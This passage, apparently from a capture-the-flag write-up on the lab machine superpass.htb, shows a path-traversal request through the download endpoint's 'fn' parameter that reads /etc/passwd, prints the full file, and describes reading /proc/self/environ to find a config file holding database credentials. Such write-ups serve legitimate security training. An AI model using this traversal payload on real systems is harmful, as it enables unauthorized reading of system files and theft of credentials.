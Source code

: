 Hmmm... LFI, are you there?

### [](#LFI)LFI 

So `http://superpass.htb/vault/export` was redirecting to `http://superpass.htb/download?fn=user_export_blablabla.csv`.

In this case, **fn** parameter was vunerable to Local File Inclusion.

```
http://superpass.htb/download?fn=../../../etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
corum:x:1000:1000:corum,1,1,:/home/corum:/bin/bash
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mysql:x:109:112:MySQL Server,,,:/nonexistent:/bin/false
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
_laurel:x:999:999::/var/log/laurel:/bin/false
```

###  [](#SSH-Creds)SSH Credentials

From the LFI, I've tried to fuzzing directories and files in order to find some intereting data.

By reading **/proc/self/environ**, I've found /app/config_prod.json which gived us mysql creds for production database.
